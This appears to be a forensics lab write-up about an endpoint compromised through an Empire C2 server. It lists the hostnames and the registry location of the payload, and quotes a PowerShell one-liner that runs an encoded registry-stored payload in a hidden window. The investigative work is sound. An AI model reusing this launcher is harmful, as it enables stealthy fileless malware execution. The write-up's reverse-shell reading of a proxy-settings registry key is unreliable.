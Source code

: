 - What is the hostname of the affected endpoint in Investigation 3.1?

```c
DESKTOP-O153T4R
```


- What is the hostname of the C2 server connecting to the endpoint in Investigation 3.1?

```c
empireC2
```


- Where in the registry was the payload stored in Investigation 3.1?

```c
HKLM\SOFTWARE\Microsoft\Network\debug
```

![](/assets/img/Pasted image 20240405041844.png)

	- From the third log, what's the purpose of these bytes in the "HKLM\SOFTWARE\Microsoft\Network\debug"?


- What PowerShell launch code was used to launch the payload in Investigation 3.1?

```c
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;
```


##### Attack Path
`1.` Malware beacons out to its C2 server in `HTTP`:

![](/assets/img/Pasted image 20240405042417.png)


`2.` This registry object added allows setup of the reverse shell connection on a specific user defined by its SID: `HKU\<SID>\...`

![](/assets/img/Pasted image 20240405044901.png)


<u>Breakdown of the modified registry key by the 1st stage malware with empireC2 from ChatGPT</u>:

```c
The registry key `HKU\S-1-5-21-1371555976-851846072-2573341172-1001\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections` is a location in the Windows Registry that stores information related to internet settings for a specific user profile on a Windows system.

Let''s break down the key:

- **`HKU`**: This abbreviation stands for HKEY_USERS, which is a top-level hive in the Windows Registry that contains user-specific configuration data. Each user profile on the system has its own subkey under HKU, identified by a unique security identifier (SID).
    
- **`S-1-5-21-1371555976-851846072-2573341172-1001`**: This part of the key represents the unique security identifier (SID) of a particular user profile. SIDs are used to uniquely identify user accounts and groups on Windows systems.
    
- **`Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections`**: This is the path within the user''s registry hive where internet settings related to network connections are stored. It may contain information such as proxy settings, LAN settings, and other configurations relevant to internet connectivity.
    

In summary, the `Connections` subkey under the specified user''s registry hive (`HKU\S-1-5-21-1371555976-851846072-2573341172-1001`) stores internet settings for that user''s profile on the Windows system. This information is used by the operating system and various applications to manage internet connectivity and related configurations for that specific user.
```